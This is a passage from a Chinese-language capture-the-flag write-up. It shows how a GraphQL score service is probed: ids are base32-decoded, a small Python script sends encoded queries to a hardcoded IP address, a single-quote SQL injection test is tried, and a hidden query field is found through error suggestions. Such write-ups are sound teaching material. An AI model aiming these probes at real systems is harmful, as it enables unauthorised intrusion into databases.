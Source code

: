 [GraphQLLocatedError('Non-base32 digit found',), GraphQLLocatedError('Non-base32 digit found',), GraphQLLocatedError('Non-base32 digit found',)]

发现是个base32

那我们去解码

GE======

1

发现结果是1

于是为了做题方便，我写了一个python交互，这样不用我们频繁的转换发包，脚本如下:

import base64

import requests

url = "http://182.254.247.127:3001/graphql"

payload = base64.b32encode("123")

go = '{ getscorebyid(id: "%s"){ id name score } }'%(payload)

data = {

    "query" : go

}

r = requests.post(data=data,url=url)

print r.content

我们先尝试直接注入

1'

得到报错

[GraphQLLocatedError('Incorrect number of bindings supplied. The current statement uses 1, and there are 2 supplied.',), GraphQLLocatedError('Incorrect number of bindings supplied. The current statement uses 1, and there are 2 supplied.',)]

发现只能输入一位数，这就极大的限制了我们的构造

于是我开始从他的查询结构入手，一定要根据id查询吗？

尝试

{ getscorebyname(name: "1"){ id name score } }

再次报错了

[GraphQLError('Cannot query field "getscorebyname" on type "Query". Did you mean "getscorebyyourname" or "getscorebyid"?',)]

发现真的可以改变查询结构

{ getscorebyyourname(name: "Alice"){ name score } }

我们再次尝试，可以得到结果

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', 'Alice'), (u'score', '100')]))])
